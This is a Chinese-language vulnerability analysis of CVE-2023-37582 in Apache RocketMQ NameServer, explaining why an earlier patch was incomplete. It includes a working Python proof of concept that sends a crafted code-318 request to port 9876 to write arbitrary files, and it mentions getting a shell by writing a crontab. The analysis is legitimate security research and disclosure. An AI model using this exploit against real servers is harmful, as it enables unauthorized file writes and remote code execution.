









# Apache RocketMQ NameServer 远程代码执行漏洞（CVE-2023-37582）分析 - 先知社区

Apache RocketMQ NameServer 远程代码执行漏洞（CVE-2023-37582）分析


# 漏洞描述

最近，阿里云又发布了 RocketMQ 的漏洞通告，因为才分析过这个漏洞，所以再来看一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712232628-78f31f82-20c8-1.png)

一看是由于上次没有修复完善的原因，拉一版修复的源码再来看一下。

# 漏洞分析

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712232645-82d53580-20c8-1.png)

修补的地方在 namesrv，还是 updateconfig 这个地方，这里可以用 RocketMQ 自己的协议，用不同的 code 调用过来

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712232653-87b41c6a-20c8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712232659-8b4f2cac-20c8-1.png)

这里是 318，namesrv 的端口是 9876

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712232707-8fea9eea-20c8-1.png)

之前的漏洞，可以通过 update 造成任意文件写入，而补丁则把控制文件路径的 properties 加入来黑名单，跟进 update

```plain
public void update(Properties properties) {
    try {
        readWriteLock.writeLock().lockInterruptibly();

        try {
            // the property must be exist when update
            mergeIfExist(properties, this.allConfigs);

            for (Object configObject : configObjectList) {
                // not allConfigs to update...
                MixAll.properties2Object(properties, configObject);
            }

            this.dataVersion.nextVersion();

        } finally {
            readWriteLock.writeLock().unlock();
        }
    } catch (InterruptedException e) {
        log.error("update lock error, {}", properties);
        return;
    }

    persist();
}
```

因为之前的了解，就直接跟到 persist 了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712232717-96078a90-20c8-1.png)

在 string2File 这里造成的任意文件写入，第二个参数是 filename，所以跟进到 getStorePath 观察一番

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712232735-a0871d1e-20c8-1.png)

最后的返回的 realStorePath 在这里赋值，storePathFiled 是一个 Field 实例化的类，这个类是用于反射的，看到它时 configStorePath 字段，所以这里全是就是获取的其实是 storePathObject 中 configStorePath 的值

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712232746-a6db8dee-20c8-1.png)

这些都是我们在 RocketMQ 的协议中的 body 可以控制的，并且没有被过滤，过滤的 properties 为 configStorePathName

也印证了为什么这次的补丁时把 configStorePathName 改为 configStorePath

# 漏洞复现

```plain
import socket
import binascii

client = socket.socket()
# you ip
client.connect(('127.0.0.1',9876))
# data
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='brokerConfigPath=/tmp/aaa/CaSO4.txt\nconfigStorePath=/tmp/aaa/DawnT0wn.txt\naaaConfigPath=123\\nMy name is DawnT0wn'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712232802-b09724ce-20c8-1.png)

至于漏洞通告中写到的远程代码执行，在 5.1.1 版本之前可以结合 FilterServerManager 这个类的心跳机制，在 unix 和 linux 下可以命令执行，但是在 5.1.0 到 5.1.1 的版本更新中删除了这个类，只能用写 crontab 的方式来获取 shell 了

参考链接：

[https://github.com/apache/rocketmq/pull/6843/files](https://github.com/apache/rocketmq/pull/6843/files)

[https://avd.aliyun.com/detail?id=AVD-2023-37582](https://avd.aliyun.com/detail?id=AVD-2023-37582)
